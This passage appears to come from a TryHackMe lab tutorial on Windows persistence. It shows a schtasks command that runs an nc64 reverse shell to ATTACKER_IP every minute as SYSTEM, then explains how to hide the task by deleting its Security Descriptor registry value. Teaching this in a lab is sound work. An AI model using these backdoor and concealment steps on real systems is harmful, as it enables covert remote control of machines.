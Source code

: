 We can also use scheduled tasks to establish persistence if needed. There are several ways to schedule the execution of a payload in Windows systems. Let's look at some of them:

## Task Scheduler

The most common way to schedule tasks is using the built-in **Windows task scheduler**. The task scheduler allows for granular control of when your task will start, allowing you to configure tasks that will activate at specific hours, repeat periodically or even trigger when specific system events occur. From the command line, you can use `schtasks` to interact with the task scheduler. A complete reference for the command can be found on [Microsoft's website](https://docs.microsoft.com/en-us/windows-server/administration/windows-commands/schtasks).

Let's create a task that runs a reverse shell every single minute. In a real-world scenario, you wouldn't want your payload to run so often, but we don't want to wait too long for this room:


```shell-session
C:\> schtasks /create /sc minute /mo 1 /tn THM-TaskBackdoor /tr "c:\tools\nc64 -e cmd.exe ATTACKER_IP 4449" /ru SYSTEM
SUCCESS: The scheduled task "THM-TaskBackdoor" has successfully been created.
```

**Note:** Be sure to use `THM-TaskBackdoor` as the name of your task, or you won't get the flag.

The previous command will create a "THM-TaskBackdoor" task and execute an `nc64` reverse shell back to the attacker. The `/sc` and `/mo` options indicate that the task should be run every single minute. The `/ru` option indicates that the task will run with SYSTEM privileges.

To check if our task was successfully created, we can use the following command:


```shell-session
C:\> schtasks /query /tn thm-taskbackdoor

Folder: \
TaskName                                 Next Run Time          Status
======================================== ====================== ===============
thm-taskbackdoor                         5/25/2022 8:08:00 AM   Ready
```

## Making Our Task Invisible

Our task should be up and running by now, but if the compromised user tries to list its scheduled tasks, our backdoor will be noticeable. To further hide our scheduled task, we can make it invisible to any user in the system by deleting its **Security Descriptor (SD)**. The security descriptor is simply an ACL that states which users have access to the scheduled task. If your user isn't allowed to query a scheduled task, you won't be able to see it anymore, as Windows only shows you the tasks that you have permission to use. Deleting the SD is equivalent to disallowing all users' access to the scheduled task, including administrators.

The security descriptors of all scheduled tasks are stored in `HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Schedule\TaskCache\Tree\`. You will find a registry key for every task, under which a value named "SD" contains the security descriptor. You can only erase the value if you hold SYSTEM privileges.

To hide our task, let's delete the SD value for the "THM-TaskBackdoor" task we created before. To do so, we will use `psexec` (available in `C:\tools`) to open Regedit with SYSTEM privileges:
